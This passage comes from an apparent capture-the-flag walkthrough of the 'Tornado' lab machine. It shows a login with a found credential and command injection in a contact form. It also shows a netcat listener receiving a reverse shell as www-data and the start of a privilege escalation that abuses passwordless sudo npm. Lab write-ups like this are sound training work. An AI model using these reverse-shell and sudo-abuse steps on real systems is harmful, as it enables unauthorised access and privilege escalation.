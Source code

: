 ![image](https://user-images.githubusercontent.com/76552238/183066294-ace7362c-6099-483b-ad20-424677eb8351.png)

    jacob@tornado   a:jacob

![image](https://user-images.githubusercontent.com/76552238/183066360-9e48ab31-3033-4be0-8b3e-3985313064dc.png)

Now let's log in as **'jacob@tornado'** with the password **'jacob'** and see if we have access.

![image](https://user-images.githubusercontent.com/76552238/183066490-b506a30a-a62b-46f2-a49c-e17e0ce48cd4.png)

![image](https://user-images.githubusercontent.com/76552238/183066542-552f6884-7cb2-446b-857d-b37c5348c0cf.png)

Going to the contact page we can enter a comment.

![image](https://user-images.githubusercontent.com/76552238/183066705-22a1872c-a084-4846-9eec-0768148a24ad.png)

After playing around with the input field, if we enter commands in the input box they will run on the remote machine. Let's set up a listener on our local machine and run **nc** using the RCE vulnerability we found on the remote machine.

![image](https://user-images.githubusercontent.com/76552238/183256010-2c603970-1a5d-4d1f-86ed-76de74be9815.png)

    root@kali ~/D/M/Tornado [1]# nc -lnvp 4444
    listening on [any] 4444 ...
    connect to [10.0.0.27] from (UNKNOWN) [10.0.0.17] 41636
    whoami
    www-data

# 2. Privilege Escalation

We are currently logged in as the user **www-data**. Going to the **/home** directory we can see there 2 more users on the remote machine.

    www-data@tornado:/home$ ls -l
    total 8
    drwx------ 4 catchme catchme 4096 Aug  6 20:32 catchme
    drwxrwxrwx 4 tornado tornado 4096 Aug  6 20:39 tornado

We don't have access to the directory **'catchme'**. Let's see what sudo permissions we have.

    www-data@tornado:/home$ sudo -ll
    Matching Defaults entries for www-data on tornado:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User www-data may run the following commands on tornado:

    Sudoers entry:
        RunAsUsers: catchme
        Options: !authenticate
        Commands:
            /usr/bin/npm

We can run the command [**npm**][3] as the user **'catchme'**.  
Searching for **"npm privilege escalation"** I found that npm has the option to run JavaScript files.  
All we need to do is make an **'index.js'** file and a **'package.json'** file and run them as the user **'catchme'** with the command npm.


[1]: "https://temp-mail.org/en/"
[2]: "https://linuxhint.com/sql-truncation-attack/"
[3]: "https://www.unix.com/man-page/linux/1/npm/"